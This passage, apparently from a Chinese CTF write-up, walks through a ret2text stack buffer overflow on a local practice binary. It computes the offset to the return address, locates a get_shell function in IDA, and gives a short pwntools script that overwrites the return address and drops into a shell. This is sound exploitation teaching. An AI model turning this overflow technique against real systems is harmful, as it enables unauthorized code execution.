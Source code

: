 可以看到输入字符到ebp一共有16个字节，ebp地址再占了4个字节，而再往上一个字长就是退栈时要返回的地址，我们要做的就是用16个字节内容+4个字节覆盖ebp地址+4个字节的后门函数地址来覆写返回地址；记下来我们要做的就是找到后门函数的地址，回到ida

![image-20230318113940641](image/image-20230318113940641.png)

可以看到get_shell函数开始于0x08048522，因此最后4个字节就用这个地址覆盖，返回pwntools编写脚本

```python
from pwn import *
io = process("./ret2text")		#读取本地进程
io.recvline()					#先接收最开始的一行输出（Have you heard of buffer overflow?）

payload = b'A' * 16 + b'B' * 4 + p32(0x08048522)	#构造payload
print(payload)

io.sendline(payload)		   #发送payload
io.interactive()			   #进入交互
```

成功获取shell

<img src="image/image-20230318114642273.png" alt="image-20230318114642273" style="zoom:80%;" />
